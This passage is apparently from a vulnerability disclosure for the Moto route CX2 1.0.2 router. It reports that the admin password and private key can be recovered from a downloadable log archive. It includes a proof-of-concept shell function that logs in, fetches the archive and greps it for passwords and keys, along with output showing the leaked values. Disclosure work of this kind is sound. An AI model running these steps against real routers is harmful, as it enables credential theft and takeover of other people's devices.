     ```bash
    ╰─○ ./poc.sh
    Cookie: work_mode=router; timeout=170; uid=MVS/fLm8; PrivateKey=

    { "LoginResponse": { "LoginResult": "OK" } }

    -rw-r--r--  1 *******  staff  30168 Jul  1 08:18 log.tar.gz
    ```

3. Plain text password and Private key exist in the log file  

    **Description**:  

      An issue was discovered in Moto route CX2 1.0.2. The Admin password and the private key could be found in the log tar package which could download from router.  

    **Reproduce**:  

    ```bash
      function checkPlainPassword
    {
        zgrep -a password $1
        zgrep -a key $1
        zgrep -a cipher $1
    }

    Login
    echo '\n'
    getLog log.tar.gz
    ls -al log.tar.gz
    checkPlainPassword log.tar.gz
    ```

    ```bash
    ╰─○ ./poc.sh
    Cookie: work_mode=router; timeout=170; uid=tuCPveI1; PrivateKey=

    { "LoginResponse": { "LoginResult": "OK" } }

    -rw-r--r--  1 *******  staff  33516 Jul  1 08:26 log.tar.gz
    Jun 22 08:43:41 OpenWrt local5.info prog-cgi[1352]: [Management] Changing login password
    Jun 24 18:05:15 OpenWrt local5.info prog-cgi[1382]: [Management] Changing login password
    Jun 24 18:47:38 OpenWrt local5.info prog-cgi[1382]: [Management] Changing login password
    Jun 24 18:05:15 OpenWrt local0.debug prog-cgi[1382]: modules/management.c:SetPasswdSettings:1506:query:{"SetPasswdSettings":{"system_root_password":"d139a32b6c3c3e606540fb1f727f1172e2c7a32bb53c3e1e6540a237727cb872e2c7a32bb53c3e1e6540a237727cb872e2c7a32bb53c3e1e6540a23772
    Jun 24 18:47:38 OpenWrt local0.debug prog-cgi[1382]: modules/management.c:CheckPasswdSettings:1554:query:{"CheckPasswdSettings":{"system_root_password":"76c7bad3fd9ab2b0784e29d9ed02b5e64d39bad3b39ab297784e96deed6362e64d39bad3b39ab297784e96deed6362e64d39bad3b39ab297784e96
    Jun 24 18:47:38 OpenWrt local0.debug prog-cgi[1382]: modules/management.c:SetPasswdSettings:1506:query:{"SetPasswdSettings":{"system_root_password":"c734d3d377b1da4295f84a4b7b4587144d39bad3b39ab297784e96deed6362e64d39bad3b39ab297784e96deed6362e64d39bad3b39ab297784e96deed
    Jun 24 17:46:33 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:641:key:BUc0Gfvupo4X62H0ASoYThisIsAPlainPWD1,challenge:nGoIBN1rpVQDxStUxO74
    Jun 24 17:46:33 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:642:privatekey_buf:3B011AE9D2319AB2BC6D711E1E72D10B
    Jun 24 17:46:33 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2764:publickey:BUc0Gfvupo4X62H0ASoY
    Jun 24 17:46:33 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2766:publickey:BUc0Gfvupo4X62H0ASoY
    Jun 24 17:57:12 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:641:key:itciZG60noEYbkQaUFlaThisIsAPlainPWD1,challenge:5FgQIbPNWXtwU42z7DIW
    Jun 24 17:57:12 OpenWrt local0.debug prog-cgi[1382]: security.c:websGenPrivateKey:642:privatekey_buf:799DC71A8181A52E0DBBE2E39C85085F
    Jun 24 17:57:12 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2764:publickey:itciZG60noEYbkQaUFla
    Jun 24 17:57:12 OpenWrt local0.debug prog-cgi[1382]: security.c:AUTH_ResponseHandler:2766:publickey:itciZG60noEYbkQaUFla